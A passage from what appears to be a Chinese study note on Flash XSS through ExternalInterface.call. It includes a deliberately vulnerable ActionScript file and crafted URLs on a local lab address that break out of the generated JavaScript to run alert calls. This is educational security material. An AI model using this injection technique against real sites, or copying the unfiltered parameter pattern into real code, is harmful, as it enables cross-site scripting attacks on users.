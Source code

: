 ![flash2](../pictures/flash2.png)  
PS.此类问题一般可以使用google搜索xml文件被swf 调用的情况，传入的内容如果没做过滤，很可能出现此类问题。  
如果我们的 a.xml 是放在 A 站点，则需要在 A 站点根目录下的 crossdomain.xml 配置一下 allow-access-from 选项。  

### Flash缺陷参数-ExternalInterface.call(参数一)  
ExternalInterface.call 同样是一个Flash提供的可以执行js的接口函数， ExternalInterface.call函数有两个参数，形如  ExternalInterface.call("函数名","参数1")。  
Flash最后执行的JS代码如下：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
此段先考虑参数1，即函数名。  
本着学习的原则，本地搭建实践了下： Flash文件：  
``` actionScript
var a:String = root.loaderInfo.parameters.func
if(ExternalInterface.available){
    ExternalInterface.call(a)
} else {
    trace(100)
}
stop()
```
从外部获取参数func，使用ExternalInterface.call接收第一个参数，执行。  
对比：  
`try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }`  
创建url：  
`http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}//`  

这样实际执行的js代码为：  
``` 
try { __Flash__toXML(alert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }`   
http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//`  
try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }`  
```
预期结果应该是第一个url执行之后弹出数字1，第二个url执行之后弹出数字100。  
访问 `http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}//`  
![flash3](../pictures/flash3.png)  
